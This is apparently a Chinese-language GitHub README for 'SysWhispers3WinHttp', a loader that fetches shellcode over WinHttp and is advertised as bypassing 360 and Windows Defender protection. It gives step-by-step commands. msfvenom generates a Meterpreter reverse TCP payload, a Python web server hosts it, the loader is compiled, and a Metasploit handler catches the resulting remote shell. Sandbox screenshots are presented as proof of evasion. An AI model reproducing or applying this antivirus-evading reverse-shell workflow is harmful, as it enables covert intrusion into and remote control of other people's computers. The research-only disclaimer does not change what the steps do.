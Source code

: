 # SysWhispers3WinHttp
SysWhispers3WinHttp 基于SysWhispers3项目增添WinHttp分离加载功能并使用32位GCC进行编译，文件大小14KB，可免杀绕过360核晶防护与Defender。

## 0x01 免责声明：

该项目仅供安全研究使用，禁止使用该项目进行违法操作，否则由使用者承担全部法律及连带责任。

## 0x02 使用：

```
// 1. 使用msfvenom生成shellcode（或使用CobaltStrike生成Stageless之shellcode）
msfvenom -p windows/meterpreter_reverse_tcp lhost=192.168.1.104 lport=4444 -f raw -o test.bmp

// 2. 使用python3开启Web服务（或使用CobaltStrike之Scripted Web Delivery功能）
python3 -m http.server

// 3. 修改SysWhispers3WinHttp.c 第40行IP地址并使用32位GCC进行编译
gcc .\syscalls.c .\SysWhispers3WinHttp.c -o .\SysWhispers3WinHttp.exe -masm=intel -fpermissive -w -s -lwinhttp
```

注：32位GCC下载地址为https://master.dl.sourceforge.net/project/mingw-w64/Toolchains%20targetting%20Win32/Personal%20Builds/mingw-builds/6.4.0/threads-win32/sjlj/i686-6.4.0-release-win32-sjlj-rt_v5-rev0.7z?viasf=1


## 0x03 演示：

```
msfconsole
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

360核晶截图
![360demo](https://user-images.githubusercontent.com/128464183/226871711-0ba4d10c-188e-46de-8c4c-fd7b3693f604.PNG)

微步云沙箱截图
![image](https://user-images.githubusercontent.com/128464183/227158488-1e5434e8-1532-436d-974f-a320d754691e.png)

## 0x04 参考：
https://github.com/klezVirus/SysWhispers3

https://learn.microsoft.com/zh-cn/windows/win32/api/winhttp/nf-winhttp-winhttpconnect
